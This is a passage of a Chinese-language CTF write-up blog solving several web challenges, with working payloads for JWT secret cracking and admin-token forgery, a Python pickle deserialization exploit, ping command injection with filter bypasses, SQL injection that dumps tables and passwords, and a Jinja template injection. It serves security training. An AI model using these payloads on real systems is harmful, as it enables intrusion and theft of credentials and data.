Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581601241|12:commodity_id|8:MTYyNA==|98a33c4c4b021b2fabeb8faee18351779c8e489e11bf7a944f88bb6a364a6219";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|60ba95ac|f3d3b4ae2b9d4c0e64a6c561c8b228e6|1581594433
&
id=1624
```
可以猜测`1581594433`是用户ID，点击结算，抓包：
```
Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581602242|12:commodity_id|8:MTYyNA==|f83ff9b924eaaac1ea2a0dc46b43962dbd36ae8ed96605c96fb44ca83df37378";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|0eaae91b|9dc3c819458d30b90ab6b9d6a6a25451|1581594433&id=1624&price=1145141919.0&discount=0.8
```
尝试修改折扣为0.000000001，触发重定向，发现有个jwt，[查资料](https://jwt.io/)后发现是一种认证，还有一个key用于加密。重定向到`/b1g_m4mber`：
```
该页面，只允许admin访问
```
[爆破工具](https://github.com/brendan-rius/c-jwt-cracker)：
```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo
Secret is "1Kun"
```
使用刚刚的工具，得到admin的jwt如下：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```
成功进入页面，拿到源码：
```
<!-- 潜伏敌后已久,只能帮到这了 -->
/static/asd1f654e683wq/www.zip
删库跑路前我留了好东西在这里
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
```
开始读代码qaq，太tm的多了啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊。发现了发现了！！：
```
(r'/b1g_m4mber', AdminHandler)


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)

```
这里面有个pickle，和php的序列化那是一个东西，这里完全没有任何的过滤，另外，在models.py中还有一个`desc = "hint:I'm flag man"`并写入到了数据库。  
猜测是使用反序列化漏洞读取文件。看了dalao的博客发现可以加以利用，[资料](http://www.polaris-lab.com/index.php/archives/178/)，并且还有dalao写了极为完善的[脚本](https://github.com/sensepost/anapickle/blob/master/anapickle.py)，尝试使用dalao的脚本：
```
import os
import marshal
import base64
import _pickle as cPickle
import urllib

class genpoc(object):
    def __reduce__(self):
        return (eval, ("open('/flag.txt','r').read()",))

e = genpoc()
poc = cPickle.dumps(e)

print (urllib.parse.quote(poc))
```
这里要注意的是要用python2去生成，python3生成出来的东西没有办法使用qaq。  
得到flag

----
# [极客大挑战 2019]BuyFlag
首先进去又是熟悉的主页，然后我们发现header里面有一个user=0，改成user=1，提示输入password，查看源码发现有post字样，典型的加空格绕过，但是我post过后没有任何的反应？？？？  
查看wp后发现我header又是里面没有`Content-Type: application/x-www-form-urlencoded`。然后又提示我pay，于是post上去money=100000000，提示过长，数组绕过。  
得到flag

----
# [GXYCTF2019]Ping Ping Ping
打开就是一个get请求，输入`ip=127.0.0.1`：
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
```
发现是一个ping命令，但是fuck了空格和符号
```
ip=127.0.0.1%20     #这样会被fuck
ip=127.0.0.1$IFS$1  #这样没事
ip=127.0.0.1;       #这样没事
```
尝试使用`ip=127.0.0.1;ls`：
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
flag.php
index.php
```
尝试使用`ip=127.0.0.1;cat$IFS$1flag.php`读取flag.php：
```
fxck your flag!
```
查看index.php
```
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?>
```
使用变量绕过`ip=127.0.0.1;q=l;w=a;e=f;r=g;t=.php;cat$IFS$9$e$q$w$r$t`。  
得到flag

----
# [ASIS 2019]Unicorn shop
打开是叫我买unicorn，然后在字符编码utf8那一行提示注意很重要。输入item为1，price不输入，发现报错`unicodedata.numeric(price)`，发现这个判断字符在unicode中是否代表数字的函数，于是到[这个网站](https://www.compart.com/en/unicode/)上搜索thousand，随便找一个大的，我选择的`ↁ`这个，输入item号，提交就行。  
得到flag

----
# [极客大挑战 2019]BabySQL
打开又是一个注入：
```
自从前几次网站被日，我对我的网站做了严格的过滤，你们这些黑客死心吧！！！
```
看上去挺强。sqlmap测试后发现被出题人嘲讽了，看来要么写tamper，要么手工注入。先测试一下关键字，发现大多是关键字被删除，我们使用`<>`来绕过（当然这里也能双写）：
```
check.php?username=admin&password=1' uni<>on sel<>ect 1,2,3%23
# 选择3位置显示

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(table_name) fr<>om info<>rmation_schema.tables wh<>ere table_schema = database()%23
# b4bsql,geekuser

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(column_name) fr<>om info<>rmation_schema.columns wh<>ere table_name = 'b4bsql'%23
# id,username,password

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(username) fr<>om b4bsql%23
#cl4y,sql,porn,git,Stop,badguy,hacker,flag

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(passwo<>rd) fr<>om b4bsql wh<>ere username='flag'%23
```
得到flag

----
# [WesternCTF2018]shrine
打开就是源码：
```
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```
发现是将flag放在了`flask`的`config`里面，并且在`render`的时候把`config`和`self`整成了`None`，看来是一个模板注入，目的是要我们换个方式查询`flask`的`config`。所以在[flask文档](https://dormousehole.readthedocs.io/en/latest/api.html#flask.Flask)里面找变量有包含`current_app`的，我们就可以读取`config`了。用burp跑一下类似`函数.__globals__`的payload，找到response中含有`current_app`的，最后我使用`{{url_for.__globals__['current_app'].config}}`  
其实这里如果没有过滤config的话，就直接`{{config}}`获取，没有过滤`self`的话也可以通过`{{self.__dict__}}`，没有过滤括号的话，还能用base object通过os读取环境变量来获得  

得到flag